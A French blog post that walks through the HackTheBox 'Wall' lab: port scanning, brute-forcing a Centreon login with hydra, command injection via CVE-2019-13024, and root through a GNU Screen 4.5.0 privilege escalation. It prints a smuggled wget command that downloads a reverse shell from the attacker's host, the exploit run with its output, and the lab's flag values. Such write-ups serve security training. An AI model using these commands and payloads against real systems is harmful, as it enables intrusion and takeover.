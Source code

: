 ```yaml
---
layout: post
title: HackTheBox - Wall
tags: [Mermaid]
mermaid: true
---
```


![WALL]({{ site.baseurl }}/images/wall.jpg){:class="img-responsive"}

## TL;DR

Cette machine vous confrontera à un Firewall applicatif (WAF) que vous devrez contourner afin d'exploiter un applicatif web. Une machine vraiment intéressante avec un aspect réaliste.  

## Exploitation

Scan des ports via Nmap : 

```bash
root@kali:~/wall# nmap -p- -sCV 10.10.10.157 -oA wall
Starting Nmap 7.70 ( https://nmap.org ) at 2019-09-18 13:44 CEST
Nmap scan report for 10.10.10.157
Host is up (0.023s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.23 seconds
```

En ouvrant le port 80 dans un navigateur, je tombe sur une page par défaut d'Apache sur Ubuntu. 
Je lance donc `dirsearch` : 

```bash
root@kali:~/wall# ../dirsearch/dirsearch.py -u http://10.10.10.157/centreon -e php,txt,html,jsp,asmx,aspx,c,bin,elf   -w /usr/share/wordlists/CUSTOM_MEGA_LIST_URL -t 10

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php, txt, html, jsp, asmx, aspx, c, bin, elf | Threads: 10 | Wordlist size: 211325

Error Log: /root/dirsearch/logs/errors-19-09-18_13-03-13.log

Target: http://10.10.10.157/centreon

[13:03:13] Starting: 
[13:03:15] 301 -  319B  - /centreon/api  ->  http://10.10.10.157/centreon/api/
[13:03:17] 301 -  321B  - /centreon/class  ->  http://10.10.10.157/centreon/class/
[13:03:24] 301 -  319B  - /centreon/img  ->  http://10.10.10.157/centreon/img/
[13:03:24] 301 -  323B  - /centreon/include  ->  http://10.10.10.157/centreon/include/
[13:03:26] 301 -  319B  - /centreon/lib  ->  http://10.10.10.157/centreon/lib/
[13:03:28] 301 -  323B  - /centreon/modules  ->  http://10.10.10.157/centreon/modules/
[13:03:36] 301 -  322B  - /centreon/static  ->  http://10.10.10.157/centreon/static/
[13:03:39] 301 -  323B  - /centreon/widgets  ->  http://10.10.10.157/centreon/widgets/
[13:03:40] 200 -    3KB - /centreon/
[13:03:45] 301 -  322B  - /centreon/sounds  ->  http://10.10.10.157/centreon/sounds/
[13:03:50] 301 -  322B  - /centreon/locale  ->  http://10.10.10.157/centreon/locale/
```

> Note : J'ai créé une liste a base de `https://github.com/SanSYS/subdscan/blob/master/wordlist.txt` et de `/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

Je tombe enfin sur une page de login Centreon, mais je n'ai pas d'identifiants, place au Bruteforce : 

```bash
root@kali:~/wall# hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 10.10.10.157 http-post-form "/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Bad credentials"
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-09-18 13:41:39
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.157:80/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Bad credentials
[80][http-post-form] host: 10.10.10.157   login: admin   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-09-18 13:41:58
```

> Note : Ici avec l'API car impossible depuis l'interface graphique 

Pour la suite nous devons exploiter la CVE-2019-13024 pour exécuter des commandes sur la machine distante.

Je lance ZAP, le branche sur firefox et navigue sur Centreon.

Puis, depuis Centreon, je créer un Poller : 

![wall1]({{ site.baseurl }}/images/wall1.png)

J'active l'interception sur ZAP et clique sur save (depuis Centreon):

![wall2]({{ site.baseurl }}/images/wall2.png)

Je forge une requête avec la commande `/usr/bin/wget http://10.10.14.65:8888/rev.php #` qui permet de télécharger mon reverse shell : 

```bash
submitC=Save&name=Central&ns_ip_address=127.0.0.1&localhost%5Blocalhost%5D=1&is_default%5Bis_default%5D=0&ssh_port=22&init_script=centengine&nagios_bin=/usr/bin/wget http://10.10.14.65:8888/rev.php # &nagiostats_bin=%2Fusr%2Fsbin%2Fcentenginestats&nagios_perfdata=%2Fvar%2Flog%2Fcentreon-engine%2Fservice-perfdata&centreonbroker_cfg_path=%2Fetc%2Fcentreon-broker&centreonbroker_module_path=%2Fusr%2Fshare%2Fcentreon%2Flib%2Fcentreon-broker&centreonbroker_logs_path=&centreonconnector_path=%2Fusr%2Flib64%2Fcentreon-connector&init_script_centreontrapd=centreontrapd&snmp_trapd_path_conf=%2Fetc%2Fsnmp%2Fcentreon_traps%2F&ns_activate%5Bns_activate%5D=1&id=1&o=c&centreon_token=6d3db5b978c19360ade68625519ec8b4
```

Par ce biais j’écris mon exploit dans le Poller que j'ai créé juste avant depuis l'interface web, j'utilise ensuite l'exploit pour lancer la commande (et donc le téléchargement du shell) :

![wall3]({{ site.baseurl }}/images/wall3.png)

Le reverse shell est téléchargé et je peux le lancer en appelant `http://10.10.10.157/centreon/rev.php` . Pour obtenir un prompt plus utilisable, j'utilise cette commande :

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

Enfin, je recherche les fichier SUID root : 

```bash
find / -perm -u=s -type f 2>/dev/null
```

La commande `screen` et `ping` sont disponible en suid mais Sur GTFOBins, aucun exploit n'a marché. 
Je cherche donc un exploit avec `searchsploit` : 

```bash
root@kali:~# searchsploit screen 4.5
------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                 |  Path
                                                                               | (/usr/share/exploitdb/)
------------------------------------------------------------------------------- ----------------------------------------
GNU Screen 4.5.0 - Local Privilege Escalation                                  | exploits/linux/local/41154.sh
GNU Screen 4.5.0 - Local Privilege Escalation (PoC)                            | exploits/linux/local/41152.txt
------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Je copie donc le fichier sur le serveur, et le lance : 

```bash
bash: ./41154.sh: /bin/bash^M: bad interpreter: No such file or directory
www-data@Wall:/tmp$ sed -i -e 's/\r$//' 41154.sh
```

Une erreur d'encodage empêche le lancement du script, je le corrige avec cette commande :

```bash
sed -i -e 's/\r$//' 41154.sh
```

Maintenant je lance le script : 

```bash
$ /tmp/41154.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
/tmp/libhax.c: In function 'dropshell':
/tmp/libhax.c:7:5: warning: implicit declaration of function 'chmod'; did you mean 'chroot'? [-Wimplicit-function-declaration]
     chmod("/tmp/rootshell", 04755);
     ^~~~~
     chroot
/tmp/rootshell.c: In function 'main':
/tmp/rootshell.c:3:5: warning: implicit declaration of function 'setuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setuid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:4:5: warning: implicit declaration of function 'setgid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     setgid(0);
     ^~~~~~
     setbuf
/tmp/rootshell.c:5:5: warning: implicit declaration of function 'seteuid'; did you mean 'setbuf'? [-Wimplicit-function-declaration]
     seteuid(0);
     ^~~~~~~
     setbuf
/tmp/rootshell.c:6:5: warning: implicit declaration of function 'setegid' [-Wimplicit-function-declaration]
     setegid(0);
     ^~~~~~~
/tmp/rootshell.c:7:5: warning: implicit declaration of function 'execvp' [-Wimplicit-function-declaration]
     execvp("/bin/sh", NULL, NULL);
     ^~~~~~
/usr/bin/ld: cannot open output file /tmp/rootshell: Permission denied
collect2: error: ld returned 1 exit status
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
There are screens on:
        1480..Wall      (Detached)
        1491..Wall      (Detached)
        1593..Wall      (Detached)
        1510..Wall      (Detached)
        1425..Wall      (Detached)
5 Sockets in /tmp/screens/S-www-data.
id
uid=0(root) gid=0(root) groups=0(root),33(www-data),6000(centreon)
```

J'affiche les flag : 

```bash
cat /home/shelby/user.txt
fe6194544f452f62dc905b12f8da8406
cat /root/root.txt
1fdbcf8c33eaa2599afdc52e1b4d5db7
```

ROOTED !!!! 

## Ce que j'ai appris 

- Rester simple, je suis sur un serveur web : je fais un reverse shell en php 
- Si exploit il y a, je le test avant de me lancer dans un exploit manuel 

## Sources :

[CVE-2019-13024]( https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/)
[PRIVESC]( https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) 
[COMMAND INJECTION](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection) 